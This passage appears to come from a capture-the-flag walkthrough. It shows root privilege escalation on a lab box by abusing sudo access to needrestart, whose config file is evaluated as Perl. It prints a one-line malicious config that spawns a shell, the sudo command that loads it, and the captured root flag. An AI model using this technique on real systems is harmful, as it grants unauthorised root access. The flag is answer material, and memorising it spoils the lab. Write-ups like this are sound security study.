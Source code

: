 Reviewing the --help menu, we find `needrestart accepts -c <cfg>`, 
```
fismathack@conversor:~$ sudo /usr/sbin/needrestart -h
Unknown option: h
Usage:

  needrestart [-vn] [-c <cfg>] [-r <mode>] [-f <fe>] [-u <ui>] [-(b|p|o)] [-klw]

    -v          be more verbose
    -q          be quiet
    -m <mode>   set detail level
        e       (e)asy mode
        a       (a)dvanced mode
    -n          set default answer to 'no'
    -c <cfg>    config filename
    -r <mode>   set restart mode
        l       (l)ist only
        i       (i)nteractive restart
        a       (a)utomatically restart
    -b          enable batch mode
    -p          enable nagios plugin mode
    -o          enable OpenMetrics output mode, implies batch mode, cannot be used simultaneously with -p
    -f <fe>     override debconf frontend (DEBIAN_FRONTEND, debconf(7))
    -t <seconds> tolerate interpreter process start times within this value
    -u <ui>     use preferred UI package (-u ? shows available packages)

  By using the following options only the specified checks are performed:
    -k          check for obsolete kernel
    -l          check for obsolete libraries
    -w          check for obsolete CPU microcode

    --help      show this help
    --version   show version information
```
so went for it source code and find that it evals the entire config file as Perl code. 
```
# slurp config file
print STDERR "$LOGPREF eval $opt_c\n" if($nrconf{verbosity} > 1);
eval do {
    local $/;
    open my $fh, $opt_c or die "ERROR: $!\n";
    my $cfg = <$fh>;
    close($fh);
    $cfg;
};
die "Error parsing $opt_c: $@" if($@);
```
Because `needrestart` can be run with **sudo** and lets you load a custom config, **anything** inside that config gets **executed as root**. So we just create a fake config that runs a shell and pass it with `-c`.

## Shell as root
```
fismathack@conversor:/home$ echo 'system("/bin/sh");' > /tmp/nr.conf
fismathack@conversor:/home$ sudo /usr/sbin/needrestart -c /tmp/nr.conf
# whoami
root
# cat /root/root.txt
04e4e9de8223960fd3b2fab4764e26b1
```
